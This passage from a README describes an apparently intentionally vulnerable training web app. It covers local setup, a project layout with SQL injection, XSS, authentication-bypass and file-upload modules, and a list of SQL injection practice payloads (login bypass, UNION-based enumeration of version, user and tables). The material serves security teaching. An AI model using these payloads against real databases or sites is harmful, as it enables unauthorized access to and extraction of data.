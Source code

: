 #### 3. Access the Application
Open your browser and navigate to:
```
http://localhost:3000
```

#### 4. Verify Installation
You should see the main dashboard with four vulnerability modules. The application comes pre-loaded with sample data.

## 🛠️ Project Structure

```
516-hackers-vuln-playground/
├── docker-compose.yml          # Multi-container setup
├── README.md                   # This file
├── backend/
│   ├── package.json           # Node.js dependencies
│   ├── server.js              # Main Express server
│   ├── Dockerfile             # Backend container setup
│   ├── routes/                # Vulnerability modules
│   │   ├── sqli.js           # SQL Injection
│   │   ├── xss.js            # Cross-site Scripting
│   │   ├── auth.js           # Authentication Bypass
│   │   └── file-upload.js    # File Upload vulnerabilities
│   └── database/
│       └── init.sql          # Database schema and sample data
├── frontend/
│   ├── index.html            # Main interface
│   ├── css/
│   │   └── style.css         # Styling
│   └── js/
│       └── app.js            # Frontend logic
└── scripts/
    ├── test-sqli.js          # SQLi testing scripts
    ├── test-xss.js           # XSS testing scripts
    └── test-auth.js          # Auth testing scripts
```

## 📚 Vulnerability Modules

### 1. SQL Injection (SQLi) 💉
**Location**: SQL Injection module in the web interface

**Vulnerable Endpoint**: `/sqli/search`

**Practice Payloads**:
```sql
-- Basic bypass
admin' OR '1'='1

-- Union attack
' UNION SELECT 1,2,3,4,5-- -

-- Database enumeration
' UNION SELECT version(),user(),database(),4,5-- -

-- Table extraction
' UNION SELECT table_name,2,3,4,5 FROM information_schema.tables-- -
```
